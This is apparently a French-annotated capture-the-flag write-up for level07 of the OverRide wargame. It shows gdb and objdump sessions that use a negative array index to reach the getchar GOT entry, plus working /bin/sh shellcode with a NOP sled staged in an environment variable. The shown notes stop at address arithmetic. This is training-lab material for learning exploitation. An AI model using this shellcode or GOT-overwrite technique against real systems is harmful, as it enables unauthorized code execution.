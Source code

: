 # Level 07
<a href="/level08"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

<pre>
level07@OverRide:~$ gdb ./level07 

(gdb) b \*0x080486cb
Breakpoint 1 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
\----------------------------------------------------
  Welcome to wil's crappy number storage service!   
\----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
\----------------------------------------------------
   wil has reserved some storage :>                 
\----------------------------------------------------

Input command: store 
 Number: 999
 Index: 1

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0xffffd458:     0x00000000
</pre>

<pre>
objdump -R ./level07 

./level07:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R\_386\_GLOB\_DAT    \_\_gmon\_start\_\_
0804a040 R\_386\_COPY        stdin@@GLIBC\_2.0
0804a060 R\_386\_COPY        stdout@@GLIBC\_2.0
0804a000 R\_386\_JUMP\_SLOT   printf@GLIBC\_2.0
0804a004 R\_386\_JUMP\_SLOT   fflush@GLIBC\_2.0
0804a008 R\_386\_JUMP\_SLOT   getchar@GLIBC\_2.0
0804a00c R\_386\_JUMP\_SLOT   fgets@GLIBC\_2.0
0804a010 R\_386\_JUMP\_SLOT   \_\_stack\_chk\_fail@GLIBC\_2.4
0804a014 R\_386\_JUMP\_SLOT   puts@GLIBC\_2.0
0804a018 R\_386\_JUMP\_SLOT   \_\_gmon\_start\_\_
0804a01c R\_386\_JUMP\_SLOT   \_\_libc\_start\_main@GLIBC\_2.0
0804a020 R\_386\_JUMP\_SLOT   memset@GLIBC\_2.0
0804a024 R\_386\_JUMP\_SLOT   \_\_isoc99\_scanf@GLIBC\_2.7
</pre>

<pre>
(gdb) r
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 123
 Index: -1040108819

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0x804a008 <getchar@got.plt>:    0xf7e94840
</pre>

<pre>
level07@OverRide:~$ env -i SC=$(python -c "print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash gdb ./level07 

(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) x/10s \*\*(char\*\*\*)&environ
0xffffdf7e:      "SHELL=/bin/bash"
0xffffdf8e:      "COLUMNS=120"
0xffffdf9a:      "PWD=/home/users/level07"
0xffffdfb2:      "LINES=49"
0xffffdfbb:      "SC=1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
0xffffdfd4:      "SHLVL=0"
0xffffdfdc:      "/home/users/level07/level07"
0xffffdff8:      ""
0xffffdff9:      ""
0xffffdffa:      ""
(gdb) x 0xffffdfbb + 3
0xffffdfbe:      "1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
</pre>

```
env -i SC=$(python -c "print('\x90' * 20  + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash
```

- Se qui est dans l'environnement et dans les arguments est supprimé

<pre>
(gdb) b *0x08048887
Breakpoint 1 at 0x8048887
(gdb) b *0x80486cb
Breakpoint 2 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048887 in main ()
(gdb) x $eax
0xffffd5e8:     0x726f7473  # retou de fgets
(gdb) c
Continuing.
 Number: 123
 Index: 1

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd458:     0x00000000 # index 1 du tableau

Input command: store
 Number: 1
 Index: -2

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd44c:     0xffffd6b8 # index -2 du tableau
</pre>

- 0xffffd5e8 - 0xffffd458 = 0x190 = 400
- ffffd5e8 - ffffd44c = 19c = 412
- ffffd608 - 19c = ffffd46c
